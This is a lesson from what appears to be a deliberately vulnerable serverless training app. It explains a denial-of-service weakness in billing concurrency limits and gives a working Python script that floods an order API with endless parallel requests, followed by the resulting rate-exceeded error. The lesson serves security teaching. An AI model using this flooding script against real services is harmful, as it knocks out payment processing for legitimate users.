## LESSON #6: Denial of Service (DoS)

To avoid flooding the 3rd party payment processing (its not really 3rd-party, but think about it as a STIPE) the DVSA is configured to allow only 10 concurrent invocation of the billing processing.

This means that an attacker can cause a Denial of Service on the payment processing in the applicaiton, simply by sending the billing request in at least 10 parallel threads.

This simply python code will exploit it (with sample data):
```
import threading
import requests

def dos():
    payload = '{ "action":"billing", "order-id": "9f51b1e1-eff9-4dc1-8e17-7ee19ba51272", "data": {"ccn": "4242424242424242", "exp": "11/2020", "cvv": "444"} }'
    url = "https://qz0yy61905.execute-api.us-east-1.amazonaws.com/dev/order"
    headers = {"Authorization": "eyJraWQiOiIyQ1dZekh0dTV..............BVVplWk9qenw"}

    r = requests.post(url, data=payload, headers=headers)
    print (r.text)
    return


while True:
    threading.Thread(target=dos).start()

```

As a result, any other user that will try to invoke this service will receice:
```
{"message":"Rate Exceeded.","code":"TooManyRequestsException","time":"2018-12-22T23:25:29.935Z","requestId":"deec6aa7-0640-11e9-9e02-a529a60fefd1","statusCode":429,"retryable":false,"retryDelay":17.57835303415325}
```
